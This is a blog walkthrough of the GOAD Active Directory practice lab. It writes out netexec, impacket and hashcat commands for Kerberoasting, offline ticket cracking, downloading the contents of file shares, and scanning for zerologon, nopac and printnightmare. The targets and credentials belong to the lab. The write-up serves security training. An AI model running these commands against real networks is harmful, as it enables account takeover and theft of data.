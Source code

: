 +++
title = "GOAD Part 2: Domain Enumeration"
date = 2024-11-14T01:29:29+03:00
tags = ["cybersecurity"]
#Decide to delete draft or change it to false in order to display post on website
+++

---

![goad_part2_domain](https://github.com/user-attachments/assets/32c94610-84d8-4a8c-a73a-609cd34d2624)

> ### Table of Contents

- [Introduction](#introduction)
- [Kerberoasting in the north domain](#kerberoasting-in-the-north-domain)
- [Cracking with hashcat](#cracking-with-hashcat)
- [Spidering and Dumping Shares](#spidering-and-dumping-shares)
- [Known Vulnerabilities](#known-vulnerabilities)

## Introduction

- In the previous walkthrough we exploited various misconfigurations and obtained some valid domain user credentials.
- With valid credentials, we can perform more enumeration using tools like bloodhound and also explore various attacks such as kerberoasting. We will explore kerberoasting and domain enumeration using bloodhound…..

## Kerberoasting in the north domain

![goad_part2_1](https://github.com/user-attachments/assets/077ccce7-ed98-4800-aee8-83f15893809a)

- With our valid credentials we can try and abuse kerberoasting to obtain more credential material that can grant further access to systems and data.
- Kerberoasting involves attempting to crack passwords of service accounts by exploiting the Kerberos authentication protocol.
- We obtain service tickets associated with these accounts and then perform offline password cracking.
- Using netexec:

```s
nxc ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```

![goad_part2_2](https://github.com/user-attachments/assets/a2ed153d-e430-4a0a-8d7f-d175cfb4e8d2)

- Using impacket:

```s
impacket-GetUserSPNs -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```

![goad_part2_3](https://github.com/user-attachments/assets/96e24b3e-2cf0-4fb4-94c9-d85bb627ab97)

- We obtain 3 kerberoastable users: sansa.stark, jon.snow and sql_svc

## Cracking with hashcat

- Running hashcat in the following mode with a rockyou password list:

![goad_part2_4](https://github.com/user-attachments/assets/81ae2678-4415-4a6e-89dd-6159a939f266)

- We get the plaintext credentials of the jon.snow user.

```s
hashcat -m 13100 -a 0 KERBEROASTING /usr/share/wordlists/rockyou.txt.gz
```

![goad_part2_5](https://github.com/user-attachments/assets/8e54345d-7806-4602-9c4b-83f39d705305)

## Spidering and Dumping Shares

![goad_part2_6](https://github.com/user-attachments/assets/4f048a00-4ef5-4269-8a60-a1f2b42dc918)

- Check for shares and permissions on them.

```s
 nxc smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local --shares
```

![goad_part2_7](https://github.com/user-attachments/assets/c90eda41-81f6-48c9-8bdf-7a246ad57a30)

- Dump all files from all the readable shares.

```s
 nxc smb 192.168.56.10-23 -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M spider_plus -o DOWNLOAD_FLAG=TRUE
```

![goad_part2_8](https://github.com/user-attachments/assets/2c32799d-13db-46c7-8617-e4c625ebd0d7)

- We have a couple of interesting dumped files.

![goad_part2_9](https://github.com/user-attachments/assets/e55c97c9-4c47-4d76-b50e-dadc5e46bec1)

- We discover credentials to jeor.mormont user.

![goad_part2_10](https://github.com/user-attachments/assets/e25fc7de-cbcb-49b2-8b50-1653eac34c9b)

![goad_part2_11](https://github.com/user-attachments/assets/0cebbe58-193a-4f53-8f46-7ed839c96eb8)

## Known Vulnerabilities

![goad_part2_12](https://github.com/user-attachments/assets/486cbc51-561a-42da-a586-64a25b385c80)

- Some of these vulnerabilities require credentials to enumerate so we will use a domain user’s credentials with netexec, to check the various known vulnerabilities.

```s
 nxc smb 192.168.56.10-23 -u 'jon.snow' -p 'iknownothing' -M zerologon -M nopac -M printnightmare -M smbghost -M ms17-010
```

- We are able to identify printnightmare and nopac on winterfell:

![goad_part2_13](https://github.com/user-attachments/assets/333c11dd-0c8f-484b-9986-11fcbf3bfd93)
